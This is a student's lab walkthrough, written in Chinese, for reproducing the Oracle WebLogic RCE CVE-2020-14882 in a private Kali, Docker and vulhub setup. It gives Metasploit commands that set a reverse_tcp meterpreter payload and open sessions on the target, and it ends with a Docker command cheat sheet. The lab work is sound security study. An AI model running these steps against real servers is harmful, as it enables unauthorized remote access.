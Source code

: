 ```yaml
---
tags: CVE
---
```

# 環境建置 & cve-2020-14882
`以 cve-2020-14882作為示範`

---

https://www.luoyunhao.com/archives/23.html
https://www.cnblogs.com/dogecheng/p/11450423.html
https://hackmd.io/@axwl03/metasploit-module-development?fbclid=IwAR3fur7G55PKJxGcis8bvJYIRxFLtyP0iocmbG9PjT2Xl8VPztypNaZnHdc
>學長的筆記
---


### **step 1: 環境建置**
* 在虛擬機上開兩台kali，一個做為漏洞靶機另一個為攻擊主機，要確認兩台都在同一個網域下:
    * 漏洞靶機:
        ```shell
        $ sudo ifconfig eth1 192.168.179.131
        ```
    * 攻擊主機:
        ```shell
        $ sudo ifconfig eth1 192.168.179.130
        ```
    > 可以 ping 看看確定互相可以傳送封包

#### 攻擊主機:
1. 服用 [這篇教學](https://www.luoyunhao.com/archives/23.html) 或 [這篇教學](https://xueyp.github.io/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8/2018/08/01/%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8-metasploit%E8%BF%9E%E6%8E%A5%E6%95%B0%E6%8D%AE%E5%BA%93%E5%8F%8A%E5%92%8Copevas%E9%85%8D%E5%90%88%E4%BD%BF%E7%94%A8.html) 讓metasploit創建並初始化數據庫
>Metasploit 是 Kali linux 內建的工具，可以使用 Metasploit 來對已知的漏洞進行測試。
    
* 確認連上:
    * ![](https://i.imgur.com/gqRwmqg.png)


#### 漏洞靶機:
1. 安裝 docker & docker-compose
    > [在 Kali Linux 上安裝 Docker 和 Docker Compose
](https://grayguide.net/zh-hant/%E5%9C%A8-kali-linux-%E4%B8%8A%E5%AE%89%E8%A3%9D-docker-%E5%92%8C-docker-compose)
    > [資安這條路 03 - [基礎知識] Docker & Docker-compose & PHP 基本資訊](https://ithelp.ithome.com.tw/articles/10239520)
    
    > $ systemctl enable docker //設置docker開機自啟 

2. 安裝漏洞靶場 vulhub
    > [KALI搭建Docker+Vulhub漏洞复现环境](https://icode.best/i/43980047084292)
    * step 1. 
        ```shell
        在根目錄:
        $ git clone https://github.com/vulhub/vulhub.git
        $ cd vulhub/weblogic
        $ cd CVE-2020-14882           // cve-2020-14882 的漏洞
        ```
    * step 2.
        * 這時候可以 `$ cat docker-compose.yml` 查看這個漏洞的 port
            ```
            version: '2'
            services:
             weblogic:
               image: vulhub/weblogic:12.2.1.3-2018
               ports:
                - "7001:7001"
            ```
        * 
            ```shell
            $ sudo docker-compose up -d //啟動環境
            $ sudo docker ps            //查看目前正在運行的容器
            ```
            ![](https://i.imgur.com/z3nmUWY.png)
3. 環境搭建完成後，可以訪問:`http://192.168.179.131:7001/` ，出現如下頁面證明搭建成功
    ![](https://i.imgur.com/eyG0L71.png)

### **Step 2. 滲透測試**
```shell
$ msfconsole
$ search cve-2020-14882
```
![](https://i.imgur.com/COittc9.png)
```shell
$ use 0
$ show options
```
![](https://i.imgur.com/A9upoBT.png)

```shell
$ setg RHOSTS 192.168.179.131 
//因為靶機在這個ip 。可以 set 或 setg，差別在用 setg 即使換到別的context，設定的host ip 還會保留不用重新設定。
$ setg LHOST 192.168.179.130
$ set target 1
```

![](https://i.imgur.com/gvU90Hu.png)


* 選擇我們要的payload:
```shell
$ show payloads
$ set payload linux/x86/meterpreter/reverse_tcp
```
![](https://i.imgur.com/lZyC1YV.png)
![](https://i.imgur.com/gLczTsN.png)

* 然後 exploit:
![](https://i.imgur.com/DNUrgg9.png)
    * 或輸入 `run` 也可以

* 而後可輸入`background` 再輸入: `sessions`查看拿到多少 sessions
![](https://i.imgur.com/5t0qVcM.png)
* 然後就進到靶機的內部了，可以透過系統相關指令取得靶機的資訊:
    >或輸入`help` 看有什麼指令可以輸入
![](https://i.imgur.com/WTdBO5v.png)

---
* 可以進一步做這樣的 [漏洞利用](https://www.cnblogs.com/Found404/p/15238557.html)

---

### **Step 3. POC script撰寫**

#### 手動導入第三方模塊
* 首先在漏洞網站上找到自己需要的滲透測試模塊進行下載，然後將模塊文件上傳到Metasploit默認模塊位置 `/root/.msf4/modules` 後，重新啟動Metasploit即可 `(建議在 modules 下新建資料夾，便於分類與管理)`
    >[reference](https://www.luoyunhao.com/archives/23.html)
    * 例：在` /root/.msf4/modules` 下新建文件夾 `exploits`，將下載的模塊文件命名為 `webtest.rb` 後放到 `exploits` 文件夹下即可。如果要使用該模塊，則執行命令:
        ```shell
        msf6 > use exploits/webtest
        ```
* 在這邊因為我想先測試是否真的能夠抓到寫的 `.py` ，所以 code 的部分我是先用學姐給的 [範例](https://lovely-amethyst-00f.notion.site/CVE-2020-14882-b9ba843661c947739a78ffee4c0c7313) 下去跑的 `(感謝學姊!)`
    * 將寫好的 `oracle_weblogic_rce.py` 放在 `/home/kali/.msf4/modules/auxiliary/scanner/http` 裡面後
    * 然後先給執行權限:
        ```shell
        $ chmod +x oracle_weblogic_rce.py
        ```
    * 重新啟動Metasploit

---
### 補充
* 環境運行結束後要即時停止進程:
    > $ docker stop {CONTAINER ID}
* 啟動環境:
    > $ docker-compose up -d
* 關閉環境，需要在該環境目錄下執行
    > $ docker-compose down

-----
* docker 常用命令: [取自這裡](https://kknews.cc/code/kp2yv8p.html)
```shell=1
Docker的常用命令
#系統命令
systemctl start docker                          #啟動docker
systemctl stop docker                           #停止docker
systemctl restart docker                        #重啟docker
systemctl enable docker                         #設置docker開機自啟
#基本命令
docker version                                          #查看docker版本
docker info                                                     #查看docker詳細信息
docker --help                                           #查看docker命令
#鏡像命令
docker images                                           #查看docker鏡像列表
docker images -a                                        #列出本地所有鏡像
docker images --digests                         #顯示鏡像的摘要信息
docker search redis                                     #從Docker Hub上查找redis鏡像
docker pull redis                                       #從Docker Hub上下載redis鏡像
docker rmi 373f0984b070                         #刪除IMAGE ID 為373f0984b070的鏡像
#運行命令
#-p 6379:6379   埠映射：前表示主機部分,後表示容器部分
#-d     在後台運行容器（不進入終端）並列印容器ID/容器名
#--name myredis表示自定義容器名為myredis
docker run -d -p 6379:6379 --name myredis redis:latest          #根據鏡像創建並運行容器
#容器命令
docker container ls 或 docker ps                         #查看正在運行的容器
docker container ls -a 或 docker ps -a                   #列出所有容器
docker container start 容器ID 或 容器名稱              #啟動容器
docker start 容器ID 或 容器名稱                                        #啟動容器
docker container stop 容器ID 或 容器名稱                       #停止容器
docker stop 容器ID 或 容器名稱                                 #停止容器
docker container rm 容器ID 或 容器名稱                 #刪除容器
docker rm 容器ID 或 容器名稱                                           #刪除容器
docker container logs -f 容器ID 或 容器名稱            #查看容器日誌
docker exec -it name /bin/bash                                  #進入name（容器名/id）中開啟交互式的終端，exit退出


原文網址：https://kknews.cc/code/kp2yv8p.html
```